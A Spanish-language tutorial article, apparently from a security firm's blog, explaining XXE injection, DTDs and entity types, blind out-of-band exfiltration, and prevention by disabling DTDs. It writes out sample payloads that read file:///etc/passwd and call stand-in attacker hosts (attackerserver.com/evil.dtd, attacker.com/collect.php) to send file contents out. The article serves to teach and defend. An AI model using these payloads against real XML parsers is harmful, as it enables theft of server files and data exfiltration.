







## ¿Qué es XXE?

La inyección de entidad externa XML, también conocida en inglés como XML external entity (XXE), es una vulnerabilidad poco común en aplicaciones web que permite a un atacante interferir con el procesamiento de datos XML a través de una petición. A menudo, esto permite que un atacante lea ficheros almacenados en el servidor de aplicaciones e interactúe con cualquier sistema de back-end o externo al que la aplicación pueda acceder.

Como ocurre con muchos tipos de ataques, el ataque de entidades externas se puede dividir en dos tipos: dentro y fuera de banda. Los ataques XXE en banda son más comunes y permiten que un atacante reciba una respuesta inmediata del servidor. En el caso de ataques XXE fuera de banda (también llamados blind XXE), no hay una respuesta inmediata de la aplicación web.



## ¿Cuál es el impacto que puede tener?
Estas vulnerabilidades se consideran de impacto critico ya que puede llevar a la extracción de datos confidenciales del servidor, denegación de servicio, falsificación de solicitudes del lado del servidor permitiéndole a un atacante poder hacer uso de aplicaciones internas que no estarían disponibles desde el exterior y hasta escaneos de puertos desde la perspectiva de la maquina donde se encuentra el analizador. Por esto, es que es muy importante prevenir este tipo de vulnerabilidad.
**Nota:** Antes de seguir con el artículo técnico, debemos tener presente algunos conceptos de cómo funcionan las notaciones de XML.
### ¿Qué es XML?
XML es el acrónimo de Extensible Markup Language, es decir, es un lenguaje de marcado que define un conjunto de reglas para almacenar y transportar datos. Utiliza una estructura de etiquetas y datos en forma de árbol.



Algunas aplicaciones utilizan el formato XML para transmitir datos entre el navegador y el servidor, esta funcionabilidad da pasos a vulnerabilidades de tipo XXE porque la especificación XML contiene varias características potencialmente peligrosas, y los analizadores estándar admiten estas características incluso si la aplicación no las usa normalmente
### ¿Qué es una DTD?
Una DTD (documento tipo definición) es un documento que define la estructura de un documento XML: los elementos, atributos, entidades, notaciones, etc, que pueden aparecer, el orden y el número de veces que pueden aparecer, cuáles pueden ser hijos de cuáles, etc. 
```
<!DOCTYPE nombre [
 ... declaraciones ...
 ]>
```
La DTD que debe utilizar el procesador XML para validar el documento XML se indica mediante la etiqueta DOCTYPE. La DTD puede estar incluida en el propio documento, ser un documento externo o combinarse ambas.
### ¿Qué es una entidad XML?
Una entidad consiste en un nombre y su valor (son similares a las constantes en los lenguajes de programación). Con algunas excepciones, el procesador XML sustituye las referencias a entidades por sus valores antes de procesar el documento. Una vez definida la entidad, se puede utilizar en el documento escribiendo una referencia a la entidad, que empieza con el carácter "&", sigue con el nombre de la entidad y termina con ";". (es decir, &nombreEntidad;)
``` 
 <!ENTITY nombre 
   "… declaraciones …"
   >
```
Las entidades pueden ser internas o externas y tanto unas como otras pueden ser generales o paramétricas.

* #### Entidades Internas

Las entidades internas son las que se asocian a una cadena de caracteres. Se referencian única y exclusivamente desde el fichero.
Para hacer una referencia a la entidad debemos comenzar con el carácter &, siguiendo con el nombre de la entidad y terminamos con un ;
```
<!ENTITY nom "Martin Palermo">
<data>&nom;</data>
```
* #### Entidades Externas

Las entidades externas XML son un tipo de entidad personalizada cuya definición se encuentra fuera de la DTD donde se declaran. Para la declaración de una entidad externa se usa la palabra clave SYSTEM y se debe especificar una URL desde la cual se debe cargar el valor de la entidad. 
```
<!ENTITY ext SYSTEM "http://nautilusshield.com" >
```
La URL también puede usar el protocole file://, para cargar la entidad desde un archivo.
```
<!ENTITY ext SYSTEM "file:///etc/passwd" >
```
* #### Entidades de parámetros

A veces, los ataques XXE que utilizan entidades regulares se bloquean debido a alguna validación de la entrada por parte de la aplicación o alguna configuración del analizador XML que se está utilizando. En este caso, es posible que se pueda utilizar entidades de parámetros XML en su lugar. Las entidades de parámetros XML son un tipo especial de entidad XML a la que solo se puede hacer referencia en otro lugar dentro de la DTD. Para los propósitos actuales, solo se necesita saber dos cosas. Primero, la declaración de una entidad de parámetro XML incluye el carácter de porcentaje antes del nombre de la entidad.
```
<!ENTITY % nombre "Martin Palermo" >
```
Y, en segundo lugar, se hace referencia a las entidades de parámetros mediante el carácter de porcentaje en lugar del signo ampersand habitual.
```
%nombre;
```
### Resumiendo

\<\!<span style="color:#d32e9d">DOCTYPE test</span> \[ \<\!<span style="color:#b11362">ENTITY \% xxe</span><span style="color:#df5790"> SYSTEM "file:///etc/passwd"</span>\> \]\>

* Con la etiqueta <span style="color:#d32e9d">DOCTYPE</span> especificamos el nombre del DTD.
* Con la etiqueta <span style="color:#b11362">ENTITY</span> especificamos el nombre de la entidad; el carácter % nos indica que la entidad es de parámetros.
* Para concluir, la etiqueta <span style="color:#df5790">SYSTEM</span> nos indica que nuestra entidad de parámetros es externa y su valor contiene el fichero /etc/passwd.
## ¿Cuáles son los tipos de ataques XXE?

* **Explotación de XXE para recuperar archivos,** donde se define una entidad externa que contiene el contenido de un archivo y se devuelve en la respuesta de la aplicación.
* **Explotación de XXE para realizar ataques SSRF,** donde se define una entidad externa basada en una URL a un sistema back-end.
* **Aprovechar el blind XXE para recuperar datos a través de mensajes de error,** donde un atacante puede generar un mensaje de error de procesamiento que desencadene en la exfiltración de datos confidenciales.
* **La explotación de blinds XXE exfiltrando datos fuera de banda,** donde los datos confidenciales se transmiten desde el servidor de aplicaciones a un sistema que controla el atacante. Este último ataque es en el que se hará énfasis.
## Detección de blind XXE  
Definimos una entidad externa de la siguiente manera
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://attackerserver.com/evil.dtd"> ]>
```
Deberíamos ver algunas interacciones DNS y/o HTTP que fueron iniciadas por la aplicación como resultado de la carga maliciosa.



Una vez se detecta que la entidad externa ciega es vulnerable, se procede a explotarla mediante técnicas fuera de banda.

## Explotación de blind XXE mediante técnicas fuera de banda
Detectar una vulnerabilidad XXE ciega está muy bien, pero en realidad no demuestra cómo se podría explotar la vulnerabilidad. Lo que un atacante realmente quiere lograr es exfiltrar datos confidenciales. Esto se puede lograr mediante una vulnerabilidad XXE ciega, pero implica que el atacante aloje una DTD maliciosa en un sistema que controle y luego invoque la DTD externa desde la XXE en banda.


El ataque se lleva a cabo de la siguiente manera:

El analizador XML primero procesa la entidad de parámetro %file, que carga el archivo /etc/passwd

[](6.png)

Después, se realiza una solicitud al archivo DTD del atacante en http://attack.example.com/evil.dtd



Una vez que el analizador XML procesa el archivo DTD del atacante, la entidad de parámetro %all crea una entidad general llamada &send, que contiene la url que incluye el contenido del archivo nombrado anteriormente 

(http://attacker.com/collect.php?collect=root:!:0:0::/:/usr/bin/ksh…)



Finalmente, una vez construida la URL, el analizador XML procesa la entidad &send, que realiza una solicitud al servidor del atacante.



El atacante puede registrar la solicitud en sus extremos y reconstruir el archivo a partir de la entrada del registro.

## ¿Cómo prevenimos las vulnerabilidades XXE?
Prácticamente todas las vulnerabilidades XXE surgen porque la biblioteca de análisis XML de la aplicación admite características XML potencialmente peligrosas que la aplicación no necesita o no tiene la intención de utilizar. La forma más segura de prevenir XXE es siempre deshabilitar completamente las DTD (entidades externas).

La desactivación de DTD también hace que el analizador sea seguro contra ataques de denegación de servicios (DOS) como Billion Laughs. Si no es posible deshabilitar las DTD por completo, las entidades externas y las declaraciones de tipos de documentos externos deben deshabilitarse de la manera que sea específica para cada analizador.

Podemos ver una guía detallada de prevención de XXE para varios lenguajes y analizadores XML de forma específica en el siguiente link: [https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)


---

### Referencias

* https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
* https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/
* https://portswigger.net/web-security/xxe
* https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/